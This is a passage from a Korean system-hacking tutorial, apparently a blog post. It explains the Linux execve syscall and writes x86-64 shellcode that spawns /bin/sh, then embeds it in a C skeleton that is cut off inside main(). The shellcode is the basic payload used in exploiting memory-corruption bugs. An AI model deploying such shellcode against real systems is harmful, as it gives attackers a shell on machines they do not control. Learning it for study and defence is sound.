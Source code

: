 # execve 셸코드

- 일반적으로 셸코드라고 부르는 것은 모두 이 셸코드
- execve 명령어가 셸을 실행시키는 것이기 때문에 이 명령어를 실행시킬 수만 있다면 해당 시스템의 제어 권한을 획득할 수 있게 된다.
- 최신의 리눅스가 사용하는 기본 셸 프로그램은 sh, bash이다.

---

## execve(”/bin/sh”, null, null)

- execve 코드는 오로지 execve 시스템 콜만으로 구성된다.
- execve를 실행한 프로그램이 execve가 실행한 프로그램으로 대체된다. (완전히 덮어씌워진다-OS에서 배울 수 있다)
- execve system call format
    
    
    | syscall | rax | arg0 (rdi) | arg1 (rsi) | arg2 (rdx) |
    | --- | --- | --- | --- | --- |
    | execve | 0x3b | const char *filename | const char *const *argv | const char *const *envp |
- linux execve manual
    
    ```c
    #include <unistd.h>
    
    int execve(const char *pathname, char *const argv[],char *const envp[]);
    ```
    
    - arg1: 실행할 프로그램의 path
    - arg2: 실행될 프로그램에게 인자로 넘겨질 스트링들의 시작 주소를 가리키는 포인터들의 배열
    - arg3: `key=value` 형식으로 실행될 프로그램에게 넘겨질 환경 변수.

이번 실습에서는 sh만 실행하면 되기 때문에 arg2, arg3는 신경쓰지 않는다. 다만 arg2와 arg3를 무시하는 조건이 없기 때문에 arg2, arg3는 NULL로 채워 준다.

위 코드를 실행할 수 있는 셸코드는 무엇일까? 한 번 작성해 보았다. ‘/bin/sh’ 문자열은 [직전 포스트에서](https://toubva.github.io/blog/system-hacking-step3-2/#/) 배웠던 pwntools의 unpacking 함수를 이용해 little endian의 hex로 변환했다.

```wasm
push 0x68732f6e69622f ; 7byte이므로 immediate data로 사용 가능하다.
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov rax, 0x3b
syscall
```

이제 앞에서 진행했던 실습처럼 C 언어로 스켈레톤 코드를 만들고 그 안에 execve 실행 어셈블리 코드를 탑재해 컴파일 후 실행해 보자.

```c
__asm__(
".global run_sh\n"
"run_sh:\n"

"push 0x68732f6e69622f\n"
"mov rdi, rsp\n"
"xor rsi, rsi\n"
"xor rdx, rdx\n"
"mov rax, 0x3b\n"
"syscall\n"

"xor rdi, rdi\n"
"mov rax, 0x3c\n"
"syscall"
);

void run_sh();

int main(){
```